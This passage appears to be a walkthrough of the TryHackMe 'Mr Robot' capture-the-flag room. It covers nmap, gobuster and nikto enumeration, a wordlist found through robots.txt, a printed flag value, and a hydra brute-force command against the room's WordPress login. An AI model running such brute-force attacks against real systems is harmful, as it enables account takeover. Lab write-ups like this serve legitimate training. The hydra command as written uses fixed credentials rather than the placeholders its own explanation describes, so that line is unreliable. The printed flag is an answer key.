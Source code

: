 https://tryhackme.com/room/mrrobot

**Basic enumeration**

    22/tcp  closed ssh
    80/tcp  open   http     Apache httpd
    |_http-title: Site doesn't have a title (text/html).
    |_http-server-header: Apache
    443/tcp open   ssl/http Apache httpd
    |_http-title: Site doesn't have a title (text/html).
    | ssl-cert: Subject: commonName=www.example.com
    | Not valid before: 2015-09-16T10:45:03
    |_Not valid after:  2025-09-13T10:45:03
    |_http-server-header: Apache

So it looks like we are working with a standard webserver so we should start to more enumerations

    gobuster dir -u http://10.10.237.76/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -x txt,php

    nikto -h 10.10.237.76  
    
We find a robots.txt file so we should investigate that:

    User-agent: *
    fsocity.dic
    key-1-of-3.txt
    
    └─# cat key-1-of-3.txt 
    073403c8a58a1f80d943455fb30724b9

Lets also grab that .dic file

    wget http://10.10.237.76/fsocity.dic   

That is a big file! let us take a look at some of the entries

        └─# head fsocity.dic                                                                          
    true
    false
    wikia
    from
    the
    now
    Wikia
    extensions
    scss
    window
    
    └─# wc -l fsocity.dic 
    858160 fsocity.dic
    
    └─# sort -u fsocity.dic > sorted.dic

    └─# wc -l sorted.dic
    11451 sorted.dic

Whew that is much more reasonable to workwith, My bet is that this is a password/username list

**Initial Foothold**
    
Naviagate to the following url based on the gobuster scan
        http://10.10.237.76/wp-login
        
Pulling up burpsuite lets capture the request for a log in and feed that to hydra for some online brute forcing

        POST /wp-login.php HTTP/1.1

        Host: 10.10.237.76

        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

        Accept-Language: en-US,en;q=0.5

        Accept-Encoding: gzip, deflate

        Content-Type: application/x-www-form-urlencoded

        Content-Length: 103

        Origin: http://10.10.237.76

        Connection: close

        Referer: http://10.10.237.76/wp-login

        Cookie: s_cc=true; s_fid=30B417277AC07EA9-1832D8BCFA333922; s_nr=1661289741763; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check

        Upgrade-Insecure-Requests: 1



        log=user&pwd=passpass&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.237.76%2Fwp-admin%2F&testcookie=1

         
Alright we have a post form here, so we can now shape our hydra command

        hydra -L sorted.dic -p notarealpassword 10.10.237.76 http-post-form "/wp-login.php:log=user&pwd=passpass&wp-submit=Log&testcookie=1:Invalid"

-L is the list we will use for the username

-p is the single password to be used

http-post-form = the type of attack to perform

 "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log&testcookie=1:Invalid" = Path of webiste, POST body information, fail conditions (txt)


